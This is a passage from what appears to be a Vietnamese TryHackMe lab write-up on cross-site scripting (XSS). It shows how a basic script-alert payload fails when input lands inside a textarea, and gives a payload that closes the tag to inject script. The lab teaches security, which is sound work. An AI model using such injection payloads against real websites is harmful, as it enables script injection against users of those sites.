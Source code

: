 
***Level3***:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image115.png?raw=true)

=> Lần này tên được hiển thị trong thẻ ***< textarea>***

=> Thay vì chèn payload: 

    <script>alert(‘THM’);</script>

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image116.png?raw=true)

Chèn payload sau để bypass ***< textarre>***: 

    </textarea><script>alert('THM');</script>

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image117.png?raw=true)
